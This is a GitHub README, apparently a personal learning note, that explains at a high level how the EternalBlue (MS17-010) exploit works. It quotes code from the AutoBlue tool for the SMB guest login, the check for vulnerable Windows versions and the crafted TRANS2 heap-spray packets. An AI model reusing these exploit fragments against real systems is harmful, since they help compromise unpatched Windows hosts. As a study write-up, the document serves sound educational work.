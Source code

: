 # MS17-010-HighlevelWriteup
A high level writeup of the Eternal Blue (MS17-010) exploit using code from AutoBlue
https://github.com/3ndG4me/AutoBlue-MS17-010
# Eternal Blue writeup

###### This is a very high level writeup on how AutoBlue works, written to help me understand how EternalBlue works at a high level.
### 1. Connect to the target
- We use a request to initiate communication and then we send a followup request to authenticate the session.
- The authentication request is usually as Guest.
    - In AutoBlue, we can see this in the exploit function on line 482:
        ```
        conn = smb.SMB(target, target)
        conn.login(USERNAME, PASSWORD)
        ```
        - Where USERNAME and PASSWORD were defined back on lines 83 and 84.
        - ```target``` is the IP of the target machine.
    - Its also noted that after these lines in the exploit function, the operating system is checked.
        ```
        server_os = conn.get_server_os()
    	print('Target OS: '+server_os)
    	if server_os.startswith("Windows 10 "):
    		build = int(server_os.split()[-1])
    		if build >= 14393:  # version 1607
    			print('This exploit does not support this target')
    			sys.exit()
    	elif not (server_os.startswith("Windows 8") or server_os.startswith("Windows Server 2012 ")):
    		print('This exploit does not support this target')
    		sys.exit()
        ```
### 2. Heap Spray
- TRANS request packets are specially and carfully crafted and sent to the target.
    ```
    # The minimum requirement to trigger bug in SrvOs2FeaListSizeToNt() is SrvSmbOpen2() which is TRANS2_OPEN2 subcommand.
	# Send TRANS2_OPEN2 (0) with special feaList to a target except last fragment
	progress = send_big_trans2(conn, tid, 0, feaList, b'\x00'*30, len(feaList)%4096, False)
	# Another TRANS2_OPEN2 (0) with special feaList for disabling NX
	nxconn = smb.SMB(target, target)
	nxconn.login(USERNAME, PASSWORD)
	nxtid = nxconn.tree_connect_andx('\\\\'+target+'\\'+'IPC$')
	nxprogress = send_big_trans2(nxconn, nxtid, 0, feaListNx, b'\x00'*30, len(feaList)%4096, False)
